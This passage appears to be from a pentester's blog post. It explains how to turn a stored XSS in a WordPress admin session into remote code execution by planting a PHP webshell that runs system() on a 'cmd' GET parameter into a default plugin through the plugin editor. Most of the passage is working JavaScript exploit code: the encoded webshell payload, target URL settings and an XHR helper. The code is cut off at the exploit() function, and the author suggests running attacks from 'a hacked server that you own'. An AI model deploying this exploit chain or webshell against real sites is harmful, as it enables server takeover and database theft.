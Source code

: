 Now that we can execute arbitrary javascript code in the context of the
admin, what can we possibly do? Well, we can gain remote code execution.
That's the worst outcome of any possible web hack attack, because it
allows us to gain a foothold on the server. Possible scenarios from
there: Steal the databases (money), try to gain root privileges on the
server in order to completely own it. But this is usually kinda hard.

Anyways, the javascript that is loaded by the stored XSS modifies the
standard plugin hello.php (hello dolly plugin, it's installed by
default) and adds a PHP webshell to it.

You want to see the code how I managed to to implement it?

It's rather straightforward and there are probably more elegant ways,
such as using jQuery. Keep in mind that the URL is set to my local
pentest server, except ALERT_URL, this is just made up. In the real
world, you'd substitute the urls to a hacked server that you own and
from which you start and execute your attacks.

    :::Javascript
     /* 
     * Copyright: Nikolai Tschacher.
     * Site: incolumitas.com
     * Easy as pie.
     * What: Use this code when you found a stored XSS in a wordpress plugin to gain RCE.
     * How: A wordpress admin needs to run this code in his browser with a valid session id.
     * Idea: Mofify the flash-album-gallery plugin via wordpress admin panel.
     * 
     * Note: This is actually nothing new. It's just one of many ways to gain RCE
     *       if you have a stored XSS in a wordpress session.
     */

    // Without php tags
    // HTML meta chars are in character entity references format.
    var EXPLOIT_CODE = "\nif (isset($_GET[&#039;cmd&#039;])&amp;&amp; !empty($_GET[&#039;cmd&#039;])){ echo &#039;<pre>&#039;;system($_GET[&#039;cmd&#039;]);echo &#039;</pre>&#039;; }";

    // TARGET SETTINGS. Set stuff here.
    var TARGET_WP_PATH = "http://localhost/wordpress";
    var PLUGIN_EDITOR_URL = TARGET_WP_PATH + "/wp-admin/plugin-editor.php";
    var PLUGIN_EDIT_URL = PLUGIN_EDITOR_URL + "?file=flash-album-gallery/flag.php";


    function getXMLHttpRequestObject() {
        var ref = null;
        if (window.XMLHttpRequest) { // For recent browsers.
            ref = new XMLHttpRequest();
        } else if (window.ActiveXObject) { // Older IE 6,7,8
            ref = new ActiveXObject("MSXML2.XMLHTTP.3.0");
        }
        return ref;
    }

    /* Extract the nonce */
    function exploit() {
        var req = null;
